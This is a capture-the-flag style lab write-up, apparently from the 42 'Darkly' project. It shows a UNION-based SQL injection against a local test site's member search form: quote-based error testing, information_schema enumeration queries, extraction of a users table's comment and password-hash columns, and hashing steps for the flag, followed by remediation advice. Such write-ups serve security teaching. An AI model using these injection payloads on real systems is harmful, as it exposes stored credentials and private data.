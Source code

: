 # SQL Injection (MEMBERS)

On [Members page](http://192.168.56.101/index.php?page=member) a form allows to search information on a given member using its ID number.
<details>
<summary>IDs 0 to 5</summary>

![id0to5](https://user-images.githubusercontent.com/22397481/207928622-834fdf21-ae87-47c8-bca3-e282f4c82a5c.gif)
</details>

Let's see if we can attack this page with SQL Injection technique, by putting a `'`, a quote character. (if the error message like below prints, it means the environment is vulnerable for SQL Injection)

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

with this error message we are getting, we could try using the attack queries to see if we can get the informations, with understanding of following information:

- [Understanding MariaDB Architecture](https://mariadb.com/kb/en/understanding-mariadb-architecture/#:~:text=MariaDB%20does%20not%20support%20the,table%20they%20have%20permissions%20for.)
- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)

So by it means, in `information_schema`, all the information of the databases can be found, and by quering to it directly, it will be possible to get information of databases, with using `UNION` operator, there is a chance a query can retrieve data from `information_schema`. There are [lists of tables](https://dev.mysql.com/doc/refman/8.0/en/general-information-schema-tables.html), and we are going to use couple of them


Following query will bring the information of all the tables created on the database
```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
and with the list of [General Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html), we can find the table `users` is listed on the result.

From running this query, we can grab all the column names from each table, as well.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `users`, following columns are exist on the table `users`

```
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

By tring all the columns, with using columns `Commentaire`, and `Countersign`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
```

<img width="1077" alt="image" src="https://user-images.githubusercontent.com/46742040/202273426-4ce4365e-d857-44a7-8b5b-2ac5e03e32d4.png">

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Following the instruction, convert the string to lowercase and compute SHA256 digests.
```shell
┌──$ [~/42/2022/darkly]
└─>  echo -n FortyTwo | tr -s A-Z a-z | openssl dgst -sha256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```


# Remedattion
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
